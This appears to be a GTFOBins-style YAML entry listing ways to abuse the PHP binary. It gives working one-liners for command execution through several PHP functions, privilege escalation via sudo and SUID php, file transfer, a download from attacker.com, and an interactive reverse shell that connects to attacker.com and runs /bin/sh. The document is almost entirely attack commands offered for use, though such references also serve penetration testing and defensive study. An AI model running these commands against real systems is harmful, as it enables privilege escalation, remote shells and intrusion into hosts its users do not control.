 ```yaml
---
functions:
  execute-non-interactive:
    - code: |
        export CMD="ls /"
        php -r 'system(getenv("CMD"));'
    - code: |
        export CMD="ls /"
        php -r 'passthru(getenv("CMD"));'
    - code: |
        export CMD="ls /"
        php -r 'print(shell_exec(getenv("CMD")));'
    - code: |
        export CMD="ls /"
        php -r '$r=array(); exec(getenv("CMD"), $r); print(join(\"\\n\",$r));'
    - code: |
        export CMD="ls /"
        php -r '$h=@popen(getenv("CMD"),"r"); if($h){ while(!feof($h)) echo(fread($h,4096)); pclose($h); }'
    - code: |
        export CMD="ls /"
        php -r '$p = array(array("pipe","r"),array("pipe","w"),array("pipe", "w"));$h = @proc_open(getenv("CMD"), $p, $pipes);if($h&&$pipes){while(!feof($pipes[1])) echo(fread($pipes[1],4096));while(!feof($pipes[2])) echo(fread($pipes[2],4096));fclose($pipes[0]);fclose($pipes[1]);fclose($pipes[2]);proc_close($h);}'
  sudo-enabled:
    - code: |
        CMD="id"
        sudo php -r "system('$CMD');"
  suid-enabled:
    - code: |
        CMD="id"
        ./php -r "system('$CMD');"
  upload:
    - description: Serve files in the local folder running an HTTP server.
      code: |
        LHOST=0.0.0.0
        LPORT=8888
        php -S $LHOST:$LPORT
  download:
    - description: Fetch a remote file via HTTP GET request.
      code: |-
        export URL=http://attacker.com/file_to_get
        export LFILE=where_to_save
        php -r '$c=file_get_contents(getenv("URL"));file_put_contents(getenv("LFILE"), $c);'
  reverse-shell-interactive:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        php -r '$sock=fsockopen(getenv("RHOST"),getenv("RPORT"));exec("/bin/sh -i <&3 >&3 2>&3");'
---
```

